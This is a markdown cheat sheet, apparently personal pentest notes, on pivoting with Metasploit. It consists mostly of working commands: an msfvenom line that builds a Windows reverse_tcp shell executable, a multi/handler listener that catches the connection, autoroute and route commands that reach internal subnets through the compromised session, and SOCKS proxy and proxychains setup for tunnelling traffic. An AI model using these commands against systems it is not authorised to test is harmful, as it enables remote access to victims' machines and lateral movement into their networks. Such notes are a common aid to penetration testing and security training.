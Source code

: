 # Proxying with Metasploit 

## Pivoting with proxychains

### Setup

Get regular or meterpreter shell on target:
```bash
msfvenom -p windows/x64/$SHELL/reverse_tcp -f exe -o shell.exe LHOST=$IP LPORT=$LPORT
```
Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```msfconsole
use multi/handler
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```


### Auto-Routing our Traffic

```msfconsole
use post/multi/manage/autoroute
set SESSION 1
set netmask /CIDR
set subnet $IP
exploit
```

Configuration, [reference](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)
```msfconsole
route # display the active routes
route add <IP ADDRESS OF SUBNET> <NETMASK> <GATEWAY
	  remove
	  flush	# remove all routes from routing table
```

To change the autoroute from one route to another
```msfconsole
route remove IP/CIDR SESSIONID
route add IP/CIDR SESSIONID
route get

```

# Setting up Proxy with Metasploit

Note: Depending on what version of Metasploit you are using, the Proxy Server module will be different. 
MSF5 and lower will have auxiliary/server/socks4a or socks5, MSF6 and newer will have socks/auxiliary/socks\_proxy. 
With MSF6, you will need to specify if you want to use SOCKS4(a) or SOCKS5.
```msfconsole
use auxiliary/server/socks4a
use auxiliary/server/socks_proxy # msf6 !!
```
Configure proxychains
```bash
vim /etc/proxychains.conf
# comment lines that aren't required or you'll create a longer misconfigured chain
socks$4-5 127.0.0.1 $AUXILIARY-SERVER-PORT-NUMBER-GOES-HERE
```
